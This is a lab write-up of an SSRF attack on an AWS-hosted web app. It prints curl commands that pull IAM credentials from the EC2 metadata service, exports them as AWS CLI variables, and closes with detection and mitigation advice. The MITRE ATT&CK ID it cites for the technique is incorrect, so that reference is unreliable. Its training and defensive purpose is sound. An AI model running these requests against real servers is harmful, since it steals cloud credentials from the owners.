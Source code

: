 # SSRF to AWS Metadata Credential Extraction

Purpose: Demonstrates how to use SSRF to access AWS EC2 instance metadata and extract IAM credentials. Matches lab flows from PwnedLabs and BTLO.

Server-Side Request Forgery (SSRF) is a web application vulnerability that allows an attacker to make arbitrary HTTP requests from a vulnerable server. In cloud environments like AWS, SSRF becomes highly dangerous when used to access the EC2 instance metadata service, which hosts IAM credentials, tokens, and instance information.

This walkthrough demonstrates how an attacker could exploit an SSRF vulnerability in a cloud-hosted web application to access AWS IAM credentials from the metadata API (169.254.169.254). This technique is widely used in real-world cloud breaches and is included in the MITRE ATT&CK framework under T1557.003: Cloud Instance Metadata API.

This lab was conducted in a controlled environment using a simulated SSRF vulnerability hosted in a cloud-based web application. Platform: PwnedLabs / BTLO (Blue Team Labs Online). Target: Web server hosted on AWS EC2 with a curl-based SSRF parameter. Vulnerability: url= parameter that fails to validate input properly. Attacker Access: External user can inject requests via browser or curl. Detection Scope: AWS CloudTrail, web server logs, metadata access attempt. The goal was to simulate an attacker exploiting this SSRF to retrieve IAM credentials from the metadata service, then abuse those credentials using the AWS CLI.

curl 'https://target-site.com/api/fetch?url=http://169.254.169.254'

curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/webapp-role

Expected output:
{
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "..."
}

export AWS_ACCESS_KEY_ID="..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."

aws sts get-caller-identity

Cloud defenders can detect this behavior using: CloudTrail logs showing unexpected calls to metadata IP from internal apps. Web server logs containing 169.254.169.254 in user-supplied input. VPC Flow logs with outbound connections to the metadata IP. IAM usage logs showing a token suddenly used for unusual services.

Mitigation & Response: Require IMDSv2 (Instance Metadata Service v2) on all EC2 instances. Use strict input validation on all URL parameters. Enforce least privilege for IAM roles assigned to EC2. Log and alert on traffic to the metadata IP range: 169.254.169.254.

Tools Used: curl – For testing SSRF and extracting metadata. AWS CLI – To use the stolen credentials for identity verification. PwnedLabs / BTLO – Simulated cloud lab environment for SSRF testing. CloudTrail / VPC Logs – For detecting post-exploitation artifacts.

References:
https://attack.mitre.org/techniques/T1557/003/
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
https://infosecwriteups.com/ssrf-to-aws-credentials-extraction-a-practical-guide-4c1001f8e5d4
